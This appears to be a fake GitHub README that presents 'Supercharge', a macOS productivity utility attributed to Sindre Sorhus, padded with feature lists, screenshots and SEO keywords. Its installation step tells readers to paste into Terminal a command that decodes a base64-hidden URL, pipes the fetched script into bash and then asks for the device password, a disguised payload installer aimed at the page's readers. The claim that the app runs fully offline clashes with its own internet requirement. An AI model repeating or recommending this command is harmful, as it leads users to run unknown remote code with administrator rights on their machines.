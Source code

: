 # ⚡ Supercharge for Mac — Boost Productivity with Smart System Actions

📌 About Supercharge  
Supercharge is a lightweight macOS utility created by Sindre Sorhus that provides quick access to common system actions, file locations, and custom workflows — all via keyboard and automation.  
It’s perfect for power users, developers, and productivity enthusiasts who want to control their Mac without reaching for the mouse. Whether it’s toggling dark mode, hiding desktop icons, restarting apps, or jumping to frequently used folders, Supercharge makes it instant.  
Built with native macOS APIs and minimal UI, it runs in the background without bloating your system, respects your privacy, and integrates smoothly into any automation-heavy setup.  
All shortcuts and actions are configurable and run locally, making it an ideal tool for secure and fast desktop control.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9rYW0vaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://sindresorhus.com/_astro/screenshot1.P8PAKe8V.jpg)  
- ![](https://pbs.twimg.com/media/GYqg7ZoaoAAPvWu.jpg:large)  

## 🎯 Key Features  
⚡️ Instant System Actions: Toggle dark mode, mute audio, or empty trash with one keystroke.  
🔒 Fully Local: No internet access required — everything runs offline and private.  
⚙️ Configurable Commands: Customize actions, shortcuts, and workflows.  
🚀 Lightweight & Fast: Native Swift app with minimal background impact.  
🎨 Menu Bar Integration: Accessible UI that stays out of the way.  
📊 Developer Friendly: Combine with scripts, launch agents, and automation tools.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 100 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`supercharge mac` · `sindre sorhus mac tool` · `mac system shortcuts` · `keyboard automation macos` · `mac productivity utility` · `toggle dark mode mac` · `hide desktop icons mac` · `swift mac utility` · `mac menu bar tool` · `local automation mac` · `mac instant actions` · `mac script launcher` · `mac developer workflow tool` · `mac custom shortcuts` · `mac background helper app`
